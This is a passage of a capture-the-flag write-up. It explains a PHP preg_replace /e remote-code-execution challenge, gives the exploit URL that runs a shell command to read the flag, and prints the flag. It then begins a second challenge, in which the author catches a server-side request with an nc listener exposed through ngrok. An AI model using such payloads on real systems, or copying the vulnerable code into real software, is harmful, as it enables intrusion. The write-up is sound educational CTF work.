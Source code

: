 Accessing the provided website returns the following response:

{% highlight php %}

Welcome guys, we have a problem:
We try to replace Admin, can you help me?
Can you replace Admin??

Source code

<?php
        $input = "Can you replace Admin??";
        if(isset($_GET["vector"]) && isset($_GET["replace"])){
                $pattern = $_GET["vector"];
                $replacement = $_GET["replace"];
                echo preg_replace($pattern,$replacement,$input);
        }else{
                echo $input;
        }
?> 
{% endhighlight %}
I've seen this challenge before, but the fact that you can achieve remote code execution using `preg_replace` still amazes me. The payload below reads the flag; refer to [this article](https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/) for a more in-depth explaination.

{% highlight bash %}
http://HOST:PORTs/?vector=/Admin/e&replace=system(%27cat%20here_we_dont_have_flag/flag.txt%27)
{% endhighlight %}

**Flag:** CTF{92b435bcd2f70aa18c38cee7749583d0adf178b2507222cf1c49ec95bd39054c}


## pingster {#pingster}

{% highlight bash %}
Like a DOM with a trick.

Flag format: CTF{sha256}
{% endhighlight %}

The provided site reads "Pingster - Down just for me?". Since it asks us to enter a domain, we can just enter one that we control (I used ngrok to 'borrow' an URL accesible from anywhere on the internet). Here's the request:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-ind$ nc -nvlp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 127.0.0.1 59654 received!
GET /test.php HTTP/1.1
User-Agent: Mozilla/5.0 (linux) AppleWebKit/537.36 (KHTML, like Gecko) jsdom/16.5.3
Accept-Language: en
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
host: 42e01a4d650a.ngrok.io
accept-encoding: gzip, deflate
X-Forwarded-For: 35.242.222.74

^C
yakuhito@furry-catstation:~/ctf/unr21-ind$
{% endhighlight %}
